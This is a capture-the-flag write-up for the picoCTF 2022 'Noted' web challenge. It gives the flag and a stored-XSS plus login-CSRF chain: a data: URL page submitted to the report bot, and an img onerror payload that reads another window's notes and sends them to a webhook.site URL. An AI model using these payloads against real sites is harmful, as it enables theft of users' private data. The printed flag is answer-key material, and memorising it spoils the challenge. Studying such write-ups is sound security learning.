   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows to create an account, login, and create notes. The notes seem to be private, and only visible to the logged in user, and are not accessible through some URL. Looking at some past challenges and writeups that dealed with Notes. After searching online for these type of past challenges, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Now we need to first see if our website is vurlnerable to XSS, so we can put in a sample test payload such as 
```html
  <script>alert(1)<script>
```
We see that this website is vurlnerable to XSS. The latter video seems especially helpful, because we want to craft a payload to get the flag on another domain. So now let's try to reiterate on what we exactly want to do. We want some payload, which our bot will run to steal it's notes which will contain the flag. However, we need to make the bot run this directly. One ideal plan would be to create a temporary account, and put the XSS Payload that will print the contents of a window of the bot, which will have the flag. And then from the Report function we first open a window which we can later use to read the contents of the bots notes, and getthe flag. Then we can open a window which we can then login to the temporary account we created, and access the notes of the temporary account which will run our payload, and send the flag through a webhook. Now implementing this, we get

```html
data:text/html,<form action="http://0.0.0.0:8080/login" method=POST id=l target=_blank>
<input type="text" name="username" value="t"><input type="text" name="password" value="t">
</form><iframe id=c name=b></iframe><iframe id=d></iframe><script>window.open('http://0.0.0.0:8080/notes%27,'n');setTimeout(`l.submit()`,1000);setTimeout(`window.location='http://0.0.0.0:8080/notes?zz'`,1500)</script>
```
We will use this in our report function.

```html
<img src=x onerror="if(window.location.search.includes('zz'))window.location='https://webhook.site/bc465fa8-238e-4b8b-b771-4fa454413bf5/'+window.open('', 'n').document.body.textContent">
```

We will put this in the notes of our temporary account.

Now trying this out we get this in our webhook, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.43.03%20PM.png)</p>

Now URL Decoding this we get our flag :D, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.45.11%20PM.png)</p>
